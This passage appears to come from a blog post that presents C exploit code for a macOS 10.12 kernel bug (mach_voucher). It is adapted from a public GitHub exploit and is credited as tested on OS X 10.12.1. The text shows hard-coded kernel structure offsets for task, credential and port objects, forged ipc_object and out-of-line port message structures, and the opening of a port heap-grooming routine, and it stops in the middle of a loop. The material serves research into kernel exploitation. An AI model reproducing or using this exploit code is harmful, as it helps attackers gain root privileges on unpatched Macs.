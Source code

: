 <br>

### Exploit Code (Tested On OS X 10.12.1)

Refactored from the [reference](https://github.com/zhengmin1989/macOS-10.12.2-Exp-via-mach_voucher/blob/master/exp.m).

{% highlight c %}
#define PORT_COUNT 1024
#define USE_PORT_START 384
#define USE_PORT_HALF 512
#define USE_PORT_END 640
#define IO_BITS_ACTIVE 0x80000000
#define IKOT_CLOCK 25
#define IKOT_TASK 2
#define lck_spin_t char
#define TASK_GAP_IN_PROC 24
#define CR_RUID_GAP_IN_UCRED 24
#define TASK_GAP_IN_IPC_OBJ 104
#define ITK_KERN_SSELF_GAP_IN_TASK 232
#define UCRED_GAP_IN_PROCESS 232
#define TASK_INFO_GAP 896

#import <stdio.h>
#import <stdlib.h>
#import <mach/mach.h>
#import <atm/atm_types.h>
#import <sys/mman.h>

/* FROM osfmk/ipc/ipc_object.h -*/
typedef natural_t ipc_object_bits_t;
typedef natural_t ipc_object_refs_t;

typedef struct _ipc_object{ 
	ipc_object_bits_t io_bits;
	ipc_object_refs_t io_references;
	lck_spin_t io_lock_data[1024];
}ipc_object;
/* ----------------------------*/

typedef struct _dumpdata{
	char* dump_port;
	char* dump_task;
	uint64_t dump_itk_kern_sself;
}dumpdata;

struct ool_send_msg{
	mach_msg_header_t msg_head;
	mach_msg_body_t msg_body;
	mach_msg_ool_ports_descriptor_t msg_ool_ports[16];
};

struct ool_recv_msg{
	mach_msg_header_t msg_head;
	mach_msg_body_t msg_body;
	mach_msg_ool_ports_descriptor_t msg_ool_ports[16];
	mach_msg_trailer_t msg_trailer;
};

struct ool_send_msg send_msg;
struct ool_recv_msg recv_msg;
mach_port_t* ool_port_fengshui(){
	int current_port_num = 0;
	mach_port_t* ool_ports;
	ool_ports = calloc(PORT_COUNT, sizeof(mach_port_t));

	// Part 1. Create OOL Ports
	for(current_port_num = 0; current_port_num < PORT_COUNT; current_port_num++){ // Alloc 1024 Ports
